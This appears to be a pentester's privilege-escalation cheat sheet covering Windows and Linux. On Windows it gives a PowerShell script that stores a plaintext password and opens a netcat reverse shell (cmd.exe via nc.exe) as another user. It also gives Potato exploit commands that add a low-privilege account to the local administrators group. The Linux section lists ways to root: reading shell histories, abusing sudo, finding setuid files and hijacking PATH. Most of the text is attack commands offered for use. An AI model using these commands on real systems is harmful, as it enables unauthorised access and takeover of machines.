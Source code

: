 *********POSH SCRIPT WITH KNOWN CREDS***********
echo $pw = ConvertTo-SecureString "aliceishere" -AsPlainText -Force > go.ps1
echo $thecreds = New-Object System.Management.Automation.PSCredential ("alice",$pw) >> go.ps1
echo $computer = "Bethany2" >> go.ps1
echo [System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe","$me 8790 -e cmd.exe",$thecreds.Username, $thecreds.Password, $computer) >> go.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File go.ps1

****POTATO*******
Potato.exe -ip -cmd [cmd to run] -disable_exhaust true

Potato.exe -ip -cmd "C:\\windows\\system32\\cmd.exe /k net localgroup administrators lowprivguy /add" -disable_exhaust true

pot.exe -ip $tgt -disable_exhaust true -cmd "C:\\windows\\system32\\cmd.exe /k net localgroup administrators lowprivguy /add"

************************************LINUX***************************************
Mar 19 Update of most common paths to root!:
Automated:  the script lse at: https://github.com/diego-treitos/linux-smart-enumeration.git

1. Command histories
2. "secret" files
3. sudo abuse
4. insecure permissions
	a. custom scripts
	b. setuid
		find / -perm -4000 -o -perm -2000 2>/dev/null

1. Command histories
history
cat ~/.bash_history

2. Secret files
ls -lha

3. sudo abuse
# Check if the user has sudo access to certain commands....
# Hopefully the user has sudo access to less/more, find, or a script interpreter like Python
sudo -l

# INSTANT WIN! If the commands don't have the full path you can just create anything you want
# by the same name in your local path and run as sudo... more modern linux will look at trusted paths
# first... however if that file is missing for some reason it will continue down the path
